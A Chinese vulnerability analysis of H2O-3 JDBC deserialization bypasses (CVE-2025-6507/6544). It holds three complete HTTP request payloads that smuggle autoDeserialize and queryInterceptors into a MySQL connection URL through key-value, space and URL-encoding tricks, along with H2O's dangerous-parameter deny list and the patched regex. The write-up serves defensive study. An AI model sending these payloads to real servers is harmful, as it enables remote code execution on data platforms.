# CVE-2025-6507&CVE-2025-6544 H2O-3反序列化漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：lab3.46.0.7；附加MySQL Connector8.0.12及可用gadget；SQL导入接口可达
- 证据范围：三种JDBC参数解析差异与补丁演变，有原始commit；与19属于前后补丁关系，不能直接合并漏洞

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺完整影响范围和第二次修复commit，仅注释称3.46.0.8安全
- MySQL5.x/8.x格式差异断言需按具体驱动版本验证
- HTTP、Java、启动命令均压成一行；大量HTML样式表与空方法链接
- 分类应移机器学习平台，并保留驱动额外安装前提
- 多层解码补丁展示不等于已证明全部变体安全，需官方测试/发布证据

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 标准云
                    标准云  蚁景网络安全   2026-03-02 10:45  
  
  
  
  
  
  
## 环境搭建  
  
https://h2o-release.s3.amazonaws.com/h2o/rel-3.46.0/7/index.html  
  
  
  
  
  
下载 MySQL 驱动(https://repo1.maven.org/maven2/mysql/mysql-connector-java/8.0.12/mysql-connector-java-8.0.12.jar)并放在在同一目录下。正确的启动命令为：  
```
# Windowsjava -cp "mysql-connector-java-8.0.12.jar;h2o.jar" water.H2OApp# Linux / Macjava -cp mysql-connector-java-8.0.12.jar:h2o.jar water.H2OApp#调试启动命令java -agentlib:jdwp=transport=dt_socket,server=y,suspend=y,address=5005 -cp "mysql-connector-java-8.0.12.jar;h2o.jar" water.H2OApp
```  
  
‍  
  
启动成功后，访问 http://localhost:54321  
 就可以进入 H2O 的 Web 管理界面。  
  
  
  
  
## 漏洞复现  
  
MySQL 5.x 驱动只支持 Query String 格式（?key=value&key2=value2  
），且对 URL 解析较为严格。 MySQL 8.x 驱动引入了更灵活的 URL 解析机制，支持多种格式，并对参数解析有更宽松的处理。  
- Key-Value 格式绕过：Key-Value 格式是 MySQL 8.x 才引入的 URL 格式，采用 括号包裹、逗号分隔的方式处理参数。H2O 的正则只匹配 ?  
、;  
、&  
后面的参数名，逗号不在匹配范围之内。  
  
- 空格绕过：在参数名前添加空格，绕过正则匹配。空格不是字母 [a-z]，正则匹配失败。  
  
- 编码绕过：对参数名进行 URL 编码，使正则无法匹配出参数名。  
  
### Key-Value 格式  
```http
POST /99/ImportSQLTable HTTP/1.1Host: 127.0.0.1:54321Accept: application/json, text/javascript, */*; q=0.01User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36X-Requested-With: XMLHttpRequestSec-Fetch-Site: same-originSec-Fetch-Mode: corsSec-Fetch-Dest: emptyReferer: http://127.0.0.1:54321/flow/index.htmlAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Type: application/jsonContent-Length: 191{  "connection_url": "jdbc:mysql://(host=127.0.0.1,port=59351, autoDeserialize=true,queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor,user=deser_CB_calc)/test"}
```  
  
  
  
  
### 空格绕过  
```http
POST /99/ImportSQLTable HTTP/1.1Host: 127.0.0.1:54321Accept: application/json, text/javascript, */*; q=0.01User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36X-Requested-With: XMLHttpRequestSec-Fetch-Site: same-originSec-Fetch-Mode: corsSec-Fetch-Dest: emptyReferer: http://127.0.0.1:54321/flow/index.htmlAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Type: application/jsonContent-Length: 180{  "connection_url": "jdbc:mysql://127.0.0.1:59351/test? autoDeserialize=true& queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=deser_CB_calc"}
```  
  
  
  
  
### 编码绕过  
```http
POST /99/ImportSQLTable HTTP/1.1Host: 127.0.0.1:54321Accept: application/json, text/javascript, */*; q=0.01User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36X-Requested-With: XMLHttpRequestSec-Fetch-Site: same-originSec-Fetch-Mode: corsSec-Fetch-Dest: emptyReferer: http://127.0.0.1:54321/flow/index.htmlAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Type: application/jsonContent-Length: 242{  "connection_url": "jdbc:mysql://127.0.0.1:59351/test?%61%75%74%6f%44%65%73%65%72%69%61%6c%69%7a%65=true&%71%75%65%72%79%49%6e%74%65%72%63%65%70%74%6f%72%73=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=deser_CB_calc"}
```  
  
  
  
  
## 漏洞分析  
  
第一次补丁链接 https://github.com/h2oai/h2o-3/commit/f714edd6b8429c7a7211b779b6ec108a95b7382d  
  
  
  
  
water.jdbc.SQLManager`#importSqlTable`  
  
  
  
  
  
water.jdbc.SQLManager.SQLImportDriver`#compute2`  
  
  
  
  
  
  
water.jdbc.SQLManager`#getConnectionSafe`  
  
  
  
  
  
  
water.jdbc.SQLManager`#validateJdbcUrl`  
  
  
  
  
  
  
‍  
```
private static final Pattern JDBC_PARAMETERS_REGEX_PATTERN = Pattern.compile("(?i)[?;&]([a-z]+)=");
```  
```
private static final List<String> DEFAULT_JDBC_DISALLOWED_PARAMETERS = (List)Stream.of(// MySQL相关危险参数"autoDeserialize",            // 允许反序列化"queryInterceptors",          // 8.x版本拦截器"allowLoadLocalInfile",       // 允许读取本地文件"allowMultiQueries",          // 允许多语句执行"allowLoadLocalInfileInPath", "allowUrlInLocalInfile", "allowPublicKeyRetrieval", // H2数据库相关危险参数"init",                 // 初始化时执行SQL/脚本"script",              // 执行脚本 "shutdown"             // 关闭数据库).map(String::toLowerCase).collect(Collectors.toList());
```  
  
ConnectionUrlParser 是 MySQL 8.x 驱动中专门负责解析 JDBC URL 的类，所有 URL 解析都从它的构造函数开始。调用 parseConnectionString  提取 connString 各个部分，存储到实例变量  
  
com.mysql.cj.conf.ConnectionUrlParser`#parseConnectionString`  
()  
  
  
  
  
```
CONNECTION_STRING_PTRN = Pattern.compile(    "(?<scheme>[\\w:%]+)\\s*" +                    // 协议部分    "(?://(?<authority>[^/?#]*))?\\s*" +           // authority 部分（主机信息）    "(?:/(?!\\s*/)(?<path>[^?#]*))?" +             // path 部分（数据库名）    "(?:\\?(?!\\s*\\?)(?<query>[^#]*))?" +         // query 部分（参数）    "(?:\\s*#(?<fragment>.*))?"// fragment 部分（锚点，很少用）);
```  
  
https://regex101.com/  
  
  
  
  
  
  
空格会被包含在 query  
 中 也被匹配到  
  
‍  
  
JDBC URL 支持两种不同位置放置连接参数：  
  
‍  
  
链路一：getHosts() 链路：当 MySQL 驱动需要获取主机连接信息，参数放置在 Authority 部分//  
后面  
  
getHosts()  → parseAuthoritySection() → parseAuthoritySegment() →  buildHostInfoResortingToKeyValueSyntaxParser() →  processKeyValuePattern() → safeTrim() → decode()  
  
com.mysql.cj.conf.ConnectionUrlParser`#parseAuthoritySegment`  
 尝试多种解析方式  
  
  
  
  
  
⭐⭐⭐ 处理 (host=x,port=x,...) 格式【KEY-VALUE 格式绕过入口】 ⭐⭐⭐  
  
com.mysql.cj.conf.ConnectionUrlParser`#buildHostInfoResortingToKeyValueSyntaxParser`  
  
  
  
  
  
  
  
  
  
  
⭐⭐⭐ 核心解析逻辑【处理空格+编码】 ⭐⭐⭐  
  
com.mysql.cj.conf.ConnectionUrlParser`#processKeyValuePattern`  
  
  
  
  
  
  
调用 StringUtils.safeTrim 去除首尾空格 decode 用于URL解码  
  
⭐⭐⭐ URL 解码【编码绕过的关键】⭐⭐⭐  
  
com.mysql.cj.conf.ConnectionUrlParser`#decode`  
  
  
  
  
  
  
MySQL 驱动的 decode() 是单次解码，所以单次 URL 编码可以绕过校验，双重 URL 编码不能绕过  
  
‍  
  
‍  
  
链路二：getProperties()  链路：当 MySQL 驱动需要获取连接参数，参数放置在 Query 部分 ? 之后 getProperties() →  parseQuerySection() → processKeyValuePattern() → safeTrim() → decode()  
  
com.mysql.cj.conf.ConnectionUrlParser`#parseQuerySection`  
  
  
‍  
  
  
  
  
  
  
  
  
  
## 修复方法  
```
private static final Pattern JDBC_PARAMETERS_REGEX_PATTERN = Pattern.compile("(?i)([a-z0-9_]+)\\s*=\\s*");
```  
```
 private static final List<String> DEFAULT_JDBC_DISALLOWED_PARAMETERS = (List)Stream.of(// MySQL相关危险参数"autoDeserialize",            // 允许反序列化"queryInterceptors",          // 8.x版本拦截器"allowLoadLocalInfile",       // 允许读取本地文件"allowMultiQueries",          // 允许多语句执行"allowLoadLocalInfileInPath", "allowUrlInLocalInfile", "allowPublicKeyRetrieval", "init", "script", "shutdown").map(String::toLowerCase).collect(Collectors.toList());
```  
  
water.jdbc.SQLManager`#validateJdbcUrl`  
  
  
  
  
  
‍  
### 修复空格绕过  
```
// 旧正则（3.46.0.5 - 有漏洞）Pattern.compile("(?i)[?;&]([a-z]+)=")// 新正则（3.46.0.8 - 已修复）Pattern.compile("(?i)([a-z0-9_]+)\\s*=\\s*")
```  
  
‍  
  
  
